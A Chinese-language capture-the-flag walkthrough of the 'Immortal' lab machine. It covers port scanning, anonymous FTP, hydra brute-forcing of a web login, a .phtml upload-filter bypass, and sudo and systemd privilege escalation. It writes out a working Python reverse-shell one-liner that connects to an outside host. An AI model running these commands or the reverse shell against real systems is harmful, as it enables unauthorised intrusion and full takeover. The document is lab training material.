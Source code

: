 ```yaml
---
sidebar_position: 3
tags: [Easy, Linux, FTP, SSH, 密码破解-账号, 文件上传, SUDO, .service]
title: Immortal
description: Immortal
---
```

# Immortal
## 端口扫描
```bash
┌──(root㉿kali)-[~/CTF/HackerMyVM]
└─# nmap -sTCV -p- --min-rate 1000 192.168.0.102
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-12 02:18 EDT
Nmap scan report for 192.168.0.102 (192.168.0.102)
Host is up (0.0022s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             504 Feb 27 22:03 message.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.0.101
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
|_ftp-bounce: bounce working!
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 e8:79:ad:8b:d1:a8:39:1b:ac:ed:52:ef:d0:22:0e:eb (RSA)
|   256 65:df:6d:1d:49:11:bd:f3:2f:fa:10:0c:3b:48:69:39 (ECDSA)
|_  256 f6:b7:bf:cf:a5:d5:1b:26:4e:13:08:31:07:d5:79:b1 (ED25519)
80/tcp open  http    Apache httpd 2.4.56 ((Debian))
|_http-title: Password
|_http-server-header: Apache/2.4.56 (Debian)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
## FTP - 21
当我看见 FTP 的时候本能反应尝试 FTP 匿名身份登陆, 发现可以登陆并从其中获取到一些信息, 但是很可惜这是一个提示消息
```bash
┌──(root㉿kali)-[~/CTF/HackerMyVM]
└─# ftp 192.168.0.102
Connected to 192.168.0.102.
220 (vsFTPd 3.0.3)
Name (192.168.0.102:root): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||50560|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0             504 Feb 27 22:03 message.txt

┌──(root㉿kali)-[~/CTF/HackerMyVM]
└─# cat message.txt 
Hey guys!
I made it, after all this time. That's right guys, the great precious immortality. The one coveted by all and achieved by none. Favoured by all and owned by none. 
Now we have to be careful guys, we have to hide this from the world, from governments and other dangerous institutions. 
They may even have already heard about our achievement, they are everywhere! That's why I have decided to strengthen the security of the server. What if they try to hack us!!! 
Wishing you a long life, David.
```
:::info
- [x] 从中我获取到一个用户名 : `David`
:::
## HTTP - 80
![](https://raw.githubusercontent.com/JTZ-a/Image/main/img/20240412142800.png)
访问 HTTP 服务, 我发现就是一个单纯的密码登陆, 我使用了目录扫描也没有找见, 所以我计划使用爆破手段, 万幸爆破到了
```bash
┌──(root㉿kali)-[~/CTF/HackerMyVM]
└─# hydra -l admin  -P /usr/share/wordlists/rockyou.txt 192.168.0.102 http-post-form "/:password=^PASS^:Incorrect credentials"

Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-04-12 02:27:14
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://192.168.0.102:80/:password=^PASS^:Incorrect credentials
[80][http-post-form] host: 192.168.0.102   login: admin   password: santiago
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-04-12 02:27:23
```
![](https://raw.githubusercontent.com/JTZ-a/Image/main/img/20240412142919.png)
之后查看其中的文件, 在 chat 中我发现了一些特殊的位置, 告诉了我一个新的文件上传的位置
![](https://raw.githubusercontent.com/JTZ-a/Image/main/img/20240412143047.png)
直接访问这个地址, 然后上传 ReverseShell, 但是存在过滤, 尝试了很久发现白名单是 `.phtml` , 上传后随后在 `chat` 中发现了对应的 WebShell
![](https://raw.githubusercontent.com/JTZ-a/Image/main/img/20240412150912.png)
## 后渗透
### www-data --> drake
在用户 `drake` 的家目录中发现了一个密码文件 (这个目录比较特殊, 刚开始都没发现)
```bash
(remote) www-data@Immortal:/home/drake/...$ cat pass.txt 
netflix : drake123
amazon : 123drake
shelldred : shell123dred (f4ns0nly)
system : kevcjnsgii
bank : myfavouritebank
nintendo : 123456
```
随后使用这个构造一个字典开始爆破 SSH 密码
![](https://raw.githubusercontent.com/JTZ-a/Image/main/img/20240412153307.png)
### drake --> eric
登陆之后发现用户 drake 具有特殊权限, 并且这个对应的文件也是有修改权限的
```bash
drake@Immortal:/home$ sudo -l
Matching Defaults entries for drake on Immortal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User drake may run the following commands on Immortal:
    (eric) NOPASSWD: /usr/bin/python3 /opt/immortal.py
drake@Immortal:/home$ ls -al /opt/immortal.py 
-rw-rw-rw- 1 root root 147 Feb 28 20:20 /opt/immortal.py
drake@Immortal:/home$ cat /opt/immortal.py 
a = input(str("Do you want to be immortal: "))

if a.lower() == "yes" or a.lower() == "no":
   print("Bad answer")
else:
   print("Are you sure?")
drake@Immortal:/home$
```
直接修改原 py 文件, 让其产生一个反向 Shell
```bash
(remote) drake@Immortal:/home$ cat << EOF > /opt/immortal.py 
> import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.0.103",4445));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")
> EOF
(remote) drake@Immortal:/home$ sudo -u eric /usr/bin/python3 /opt/immortal.py
```
![](https://raw.githubusercontent.com/JTZ-a/Image/main/img/20240412154018.png)
### eric --> root
直接查看用户权限, 发现这个用户权限是管理一个服务, 直接提权
```bash
(remote) eric@Immortal:/home$ sudo -l
Matching Defaults entries for eric on Immortal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User eric may run the following commands on Immortal:
    (root) NOPASSWD: sudoedit /etc/systemd/system/immortal.service
    (root) NOPASSWD: /usr/bin/systemctl start immortal.service
    (root) NOPASSWD: /usr/bin/systemctl stop immortal.service
    (root) NOPASSWD: /usr/bin/systemctl enable immortal.service
    (root) NOPASSWD: /usr/bin/systemctl disable immortal.service
    (root) NOPASSWD: /usr/bin/systemctl daemon-reload
```
![](https://raw.githubusercontent.com/JTZ-a/Image/main/img/20240412154326.png)
随后直接执行即可
![](https://raw.githubusercontent.com/JTZ-a/Image/main/img/20240412154416.png)